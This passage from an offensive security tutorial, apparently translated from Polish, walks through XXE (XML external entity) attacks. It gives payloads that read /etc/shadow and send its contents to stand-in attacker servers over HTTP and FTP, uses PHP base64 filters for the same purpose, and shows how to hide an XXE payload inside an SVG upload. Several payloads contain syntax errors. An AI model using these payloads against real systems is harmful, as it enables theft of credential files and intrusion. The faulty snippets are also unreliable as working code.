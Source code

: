 ```
%exfiltrate;
```
Concatenated value of the entity would be something like:
``<!Entity % exfiltrate 'http://ip_of_attacker/?<![CDATA[ZAWARTOŚĆ_Pliku]]>'>

As you can see our payloads become too complicated. To combat errors of syntax in those you can use tool like **XmlLint (https://xmllint.com)**, which helps you fight typos and errors of syntax.

At last send your normal XML payload to the target object in order to launch attack:
```
<?xml version=1.0 encoding="UTF-8:?>
<!DOCTYPE example [
<!ENTITY % xxe SYSTEM "http://serwer_atakującego/xxe.dtd">
%xxe;
]>
```
Next way to exfiltrate files with special cases is to use PHP function packaging URL addresses. If the target object is an application that is based on PHP, functions packaging PHP allow us to convert our requested data to base64 format. Thanks to that we can easily read XML files or even binary files:
```
<!ENTITY % FILE system "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

For direct data transfer without having to worry about special case letters we can use FTP protocol. To use this protocol you have to boot up FTP server on your machine and modify DTD definition. We can use from simple server script written in Ruby which you can find here:
https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb
```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
	`ftp://attacker_server:2121/?%file;`>">
%ent;
%exfiltrate
```

#### 4th Step
You should try to parse files containing XML payloads. Endpoints of transferring files and parsers of files aren't always protected by same mechanisms of XXE attacks as endpoints that are designed to take XML. Hiding XXE payloads in different types of files lets us transfer payloads even when application  limits types of files that you can provide. 

##### SVG
To input XXE in SVG you have to open the picture as an txt file:
```
<svg width="500" height="500">
	<circle cx="50" cy="50" r="40" fill="blue" />
</svg>
```
Then place the payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
	<!ENTITY test SYSTEM "file:///etc/shadow"

]>
<svg width="500" height="500">
	<circle cx="50" cy="50" r="40" fill="blue" />
	<text font-size="16" x="0" y="16">&test;</text>
</svg>
```
